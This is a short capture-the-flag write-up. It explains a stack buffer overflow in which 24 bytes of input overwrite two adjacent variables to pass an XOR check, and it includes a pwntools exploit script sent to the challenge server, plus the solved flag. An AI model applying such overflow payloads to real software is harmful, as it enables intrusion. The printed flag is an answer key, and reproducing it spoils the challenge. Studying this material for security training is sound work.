

Analyzing the main we can see that it takes an input and saves it in "s1". 
Then performs the XOR of the first 8 characters of our input with "v7". If the result equals "v6" and the entered string is different from "COOLDAV", it prints the flag.
The input does not have a fixed length and "s1", "v6" and "v7" are all on the stack in successive positions. 
We can therefore insert 24 bytes in input that will also overwrite v6 and v7, choosing values that satisfy the condition: v6 == v7 ^ (* s1)

Exploit:
```python
from pwn import *

payload = (("gggggggg").encode())
payload += p64(0x101010101010101)
payload += (("ffffffff").encode())

p = remote('pwn.ctf.b01lers.com', 1001)
print(p.recvuntil('> ').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
```
pctf{sp4c3_l1n3s_R_sh0r7!}
```
